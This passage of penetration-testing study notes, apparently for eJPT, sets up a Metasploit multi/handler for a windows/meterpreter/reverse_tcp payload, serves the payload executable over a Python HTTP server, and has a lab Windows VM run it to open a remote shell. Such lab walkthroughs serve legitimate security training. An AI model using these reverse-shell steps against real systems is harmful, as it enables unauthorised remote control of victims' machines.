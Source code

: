 ```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
```

- To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

- Download the payload on the Windows 2008 system (in this case my home lab VM) from this link

  - `http://192.168.31.128:8080`
  - Run the `payloadx86.exe` payload on the target
- The `meterpreter` session on the attacker machine should be opened

![](assets/image-20230415200856110.png)

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.

![](assets/image-20230415201253314.png)
